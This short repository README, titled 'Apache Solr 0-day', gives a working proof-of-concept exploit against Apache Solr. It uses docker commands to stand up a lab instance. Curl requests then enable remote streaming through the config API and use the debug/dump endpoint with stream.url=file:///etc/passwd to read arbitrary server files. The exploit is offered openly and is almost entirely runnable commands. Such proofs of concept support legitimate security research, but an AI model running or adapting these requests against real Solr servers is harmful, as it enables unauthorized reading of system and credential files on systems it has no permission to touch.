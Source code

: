 # Apache Solr 0-day

## References: 
https://solr.apache.org/guide/8_8/requestdispatcher-in-solrconfig.html
https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 

## Greetz : 本文作者  Skay @ QAX CERT

```
# stand up test on docker
docker run --name solrbear -d -p 8983:8983 -t solr
docker start solrbear

# create core
docker exec -it --user solr solrbear bin/solr create_core -c gettingstarted

# reload (or use Web ui)
curl -X POST http://localhost:8983/solr/admin/cores?core=gettingstarted&action=RELOAD

# push some data maybe
curl -X POST -d '{"add":{ "doc":{"id":"delete.me","title":"change.me"}}}' -H "Content-Type: application/json" http://localhost:8983/solr/gettingstarted/update?commit=true

# Enable remote stream
curl -H 'Content-type:application/json' -d '{"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming": true}, "set-property":{"requestDispatcher.requestParsers.enableStreamBody": true}}' http://localhost:8983/api/cores/gettingstarted/config

# Exploit
curl "http://localhost:8983/solr/gettingstarted/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"

```
